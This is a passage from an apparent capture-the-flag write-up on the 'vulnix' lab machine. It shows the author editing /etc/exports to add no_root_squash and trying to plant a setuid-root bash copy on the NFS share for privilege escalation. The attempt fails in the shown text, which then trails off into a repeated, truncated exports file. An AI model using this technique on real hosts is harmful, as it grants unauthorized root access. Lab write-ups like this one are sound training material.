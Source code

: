 User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports

    vulnix@vulnix:/var/tmp$ cat /etc/exports
    # /etc/exports: the access control list for filesystems which may be exported
    #		to NFS clients.  See exports(5).
    #
    # Example for NFSv2 and NFSv3:
    # /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
    #
    # Example for NFSv4:
    # /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
    # /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
    #
    /home/vulnix	*(rw,no_root_squash)

****

After some research on root_squash I modified the file.  That looks better.  now I just need a way to restart the NFS export or the server and copy over a shell with a suid bit set.

I have to admit that I cheated and look at some walkthroughs.  Turns out the answer is to power cycles the VM, one person claimed to contact the author.  :(  A denial of service on the server would have been a whole lot more fun.

  root@kali:/tmp# cp /bin/bash .
  root@kali:/tmp# chmod 4777 bash


  vulnix@vulnix:~$ ./bash
  -bash: ./bash: cannot execute binary file


Copying bash from my machine doesn't work and i'm not having any luck copying the bash off the server to my machine, changing permissions and copying it back.  BRB, getting a bigger hammer.

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
